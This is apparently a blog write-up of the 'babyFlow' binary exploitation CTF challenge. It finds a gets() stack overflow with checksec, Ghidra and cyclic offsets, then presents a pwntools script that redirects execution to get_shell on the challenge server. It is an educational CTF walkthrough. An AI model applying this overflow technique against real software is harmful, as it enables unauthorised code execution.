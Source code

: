 ```yaml
---
layout: post
title: "babyFlow"
date: 2023-02-18
categories: [ctf, challenge-pwn]
image: /assets/img/ctf/ictf.ninja/pwn/babyFlow/flag.png
---
```


# ictf.ninja -  babyFlow

*Category : Binary Exploitation*

Challenge called babyFlow that was done in this writeup

Let start by analyze binary with File command
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/babyFlow.png)


From above, File Command give us three descriptions in which
- The file is running under architecture of 32 bit
- The word dynamically linked meaning that some functions are loaded from my pc
- The word not stripped meaning that binary functions' name are preserved

Let check security of binary and i can see that it is basically doesnot have any security that i need to worry about it
```
➜  pwn checksec babyFlow
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)
[*] '/home/blackninja23/Documents/ctf/ninjactf/pwn/babyFlow'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```


Open binary with ghidra, i can see that function get is used

![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/gets.png)

Use manual page of linux, `man gets`,i can see that it is vulnerable to buffer overflow
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/getsvuln.png)

Verify by sending more 'A's to the inputs and i got segmentation fault in which it is meaning to be overflow of buffer
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/bufferoverflow.png)

Analyze more in ghidra, i can see that i have function called get_shell in which it gives shell
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/getshell.png)

With Logic that i have is that i need to overflow butter to the instruction pointer and give instruction pointer that address of get_shell so as to get shell

But first i need to find offset in which i would fill before affect instruction pointer.

With this, I will use cyclic command to generate random characters with different value after 4 bytes
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/offset.png)

Second, I will use pwndbg to run my binary then send those value of size 100
*Command*
```
gdb ./babyFlow
```
After send those value, i can see that EIP take value of 'gaaa'(0x61616167)
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/EIP.png)

Use cyclic command, we can get offset of value 24

![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/EIPo.png)

First I would check if i can overwrite after 24 bytes sent and so we generate random value of 'A','B','C'

```
➜  pwn python3 -c 'print("A"*24+"B"*4)'
AAAAAAAAAAAAAAAAAAAAAAAABBBB
```

By checking, i can see that i can overwrite its value of 'B'
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/EIPOverwrite.png)

i need to send address of get_shell instead of value of 'B'

At this point, i will write python script in which i would send random 24 bytes and its address after 24 bytes and i will got shell on server but keep in mind, i already test it on binary
```
from pwn import *
add = ELF('./babyFlow')
#e = process('./babyFlow')
host = "143.198.219.171"
port = 5000
e = remote(host,port)
offset = 24
payload = b'A'* offset
payload +=p32(add.symbols['get_shell'])
print(add.symbols['get_shell'])
print(payload)
print(e.recvuntil(b'\n'))

e.sendline(payload)

e.interactive()
```

I got flag
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/flag.png)
